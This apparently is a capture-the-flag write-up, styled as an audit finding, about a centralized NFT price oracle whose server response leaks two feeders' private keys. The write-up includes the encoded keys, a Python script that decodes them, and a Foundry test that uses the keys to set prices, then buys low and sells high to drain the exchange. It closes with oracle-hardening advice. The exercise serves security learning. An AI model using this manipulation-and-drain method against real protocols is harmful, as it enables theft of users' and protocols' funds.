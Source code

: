## High

### [H-1] Compromised private keys of oracle price data feeders, can lead to price manipulation 

**Description:** The server of the price oracle service returns a strange response, which is the encoded value of the private keys of two of the addresses set as `TRUSTED_SOURCE_ROLE`. Centralized oracles, like this one, pose a single point of failure. A malicious user could manipulate asset prices by driving them down, executing a profitable action, and then driving the prices back up. 

```
HTTP/2 200 OK
content-type: text/html
content-language: en
vary: Accept-Encoding
server: cloudflare

4d 48 67 33 5a 44 45 31 59 6d 4a 68 4d 6a 5a 6a 4e 54 49 7a 4e 6a 67 7a 59 6d 5a 6a 4d 32 52 6a 4e 32 4e 6b 59 7a 56 6b 4d 57 49 34 59 54 49 33 4e 44 51 30 4e 44 63 31 4f 54 64 6a 5a 6a 52 6b 59 54 45 33 4d 44 56 6a 5a 6a 5a 6a 4f 54 6b 7a 4d 44 59 7a 4e 7a 51 30

4d 48 67 32 4f 47 4a 6b 4d 44 49 77 59 57 51 78 4f 44 5a 69 4e 6a 51 33 59 54 59 35 4d 57 4d 32 59 54 56 6a 4d 47 4d 78 4e 54 49 35 5a 6a 49 78 5a 57 4e 6b 4d 44 6c 6b 59 32 4d 30 4e 54 49 30 4d 54 51 77 4d 6d 46 6a 4e 6a 42 69 59 54 4d 33 4e 32 4d 30 4d 54 55 35
```

**Impact:** Compromised private keys lets malicious users abuse the system by moving prices for their selfish gains, this undermines trust in protocols and could lead to cascading failures in interconnected systems that rely on this oracle for pricing of assets,and can potentially lead to loss of protocol funds.

The exploit undermines the Exchange protocol’s integrity by allowing attackers to drive prices down, mint NFTs for low prices and drive prices up to sell. This can lead to buying and dumping of tokens,depending on what is of gain to the attacker.

**Proof of Concept:** 

1. Create and run a python script to convert the compromised encoded data from Base64 to ASCII
2. Use ```cast wallet address --private-key``` to convert private keys to Ethereum addresses.
3. Manipulate the price of DVNFT through the oracle:
   1. Set the price to 0.1 ETH and purchase the NFT.
   2. Reset the price to the balance of the exchange and sell the NFT to drain the exchange.
4. Then send all the ETH to the recovery address

**Proof of Code:**

<details>
<summary>Code</summary>

Use this to decode Base64 to ASCII

```python
import base64

def hex_to_ascii(hex_str):
    ascii_str = ''
    for i in range(0, len(hex_str), 2):
        ascii_str += chr(int(hex_str[i:i+2], 16))
    return ascii_str

def decode_base64(base64_str):
    # Decode Base64 to ASCII
    return base64.b64decode(base64_str).decode('utf-8')

leaked_information = [
    '4d 48 67 33 5a 44 45 31 59 6d 4a 68 4d 6a 5a 6a 4e 54 49 7a 4e 6a 67 7a 59 6d 5a 6a 4d 32 52 6a 4e 32 4e 6b 59 7a 56 6b 4d 57 49 34 59 54 49 33 4e 44 51 30 4e 44 63 31 4f 54 64 6a 5a 6a 52 6b 59 54 45 33 4d 44 56 6a 5a 6a 5a 6a 4f 54 6b 7a 4d 44 59 7a 4e 7a 51 30',
    '4d 48 67 32 4f 47 4a 6b 4d 44 49 77 59 57 51 78 4f 44 5a 69 4e 6a 51 33 59 54 59 35 4d 57 4d 32 59 54 56 6a 4d 47 4d 78 4e 54 49 35 5a 6a 49 78 5a 57 4e 6b 4d 44 6c 6b 59 32 4d 30 4e 54 49 30 4d 54 51 77 4d 6d 46 6a 4e 6a 42 69 59 54 4d 33 4e 32 4d 30 4d 54 55 35',
]

for leak in leaked_information:
    hex_str = ''.join(leak.split())
    ascii_str = hex_to_ascii(hex_str)
    decoded_str = decode_base64(ascii_str)
    private_key = decoded_str
    print("Private Key:", private_key)
```

Place the following into `Compromised.t.sol`

```javascript
function test_compromised() public checkSolved {
        vm.startPrank(compromisedOne);
        oracle.postPrice("DVNFT", PLAYER_INITIAL_ETH_BALANCE);
        vm.stopPrank();

        vm.startPrank(compromisedTwo);
        oracle.postPrice("DVNFT", PLAYER_INITIAL_ETH_BALANCE);
        vm.stopPrank();

        vm.startPrank(player);
        exchange.buyOne{value: PLAYER_INITIAL_ETH_BALANCE}();
        vm.stopPrank();
        uint256 exchangeBalance = address(exchange).balance;

        vm.startPrank(compromisedOne);
        oracle.postPrice("DVNFT",exchangeBalance);
        vm.stopPrank();

        vm.startPrank(compromisedTwo);
        oracle.postPrice("DVNFT",exchangeBalance);
        vm.stopPrank();

        vm.startPrank(player);
        nft.approve(address(exchange), 0);
        exchange.sellOne(0);
        vm.stopPrank();


        vm.startPrank(compromisedOne);
        oracle.postPrice("DVNFT", INITIAL_NFT_PRICE);
        vm.stopPrank();

        vm.startPrank(compromisedTwo);
        oracle.postPrice("DVNFT", INITIAL_NFT_PRICE);
        vm.stopPrank();

        vm.startPrank(player);
        (bool success,) = payable(recovery).call{value:EXCHANGE_INITIAL_ETH_BALANCE}("");
        vm.stopPrank();
}
```

</details>

**Recommended Mitigation:** There are several recommendations I can make on this:

1. Implement fallback mechanisms for oracle resilience : A popular strategy among DeFI projects is to use a dual oracle system that combines an off-chain oracle (eg. Chainlink Price Feeds or UMA’s optimistic oracle) and an on-chain oracle (eg. Uniswap V3 TWAP oracles). This provides a degree of security and fault tolerance since the system can switch to another oracle if using the default option is infeasible (e.g. if the oracle’s data becomes corrupted). 
   
2. Use decentralized oracles : While using a centralized oracle is nice for efficiency, the downsides (mostly) outweigh the benefits. A decentralized oracle service that utilizes multiple reporters isn’t entirely secure against manipulation, but the costs are usually high enough to deter such attacks. Ideally, you want an oracle with sound cryptoeconomic incentives (like staking on the accuracy of data or assigning reputation scores). 

3. Monitor oracle performance and activate protective measures if necessary : You shouldn’t always assume that the data provided by a particular oracle is valid—verify incoming data at intervals instead of blindly trusting oracles to function correctly. This could mean, for instance, creating a script that compares the prices provided by an oracle to values from another source (at every few blocks) and checking for large deviations. 

In the absence of a fallback mechanism, you should have measures in place to contain the effects of oracle manipulations. A possibility is pausing a protocol’s smart contracts if the source of oracle data (or the oracle itself) becomes suspect. 

Addressing this vulnerability is critical to maintaining DeFi's integrity and trustworthiness.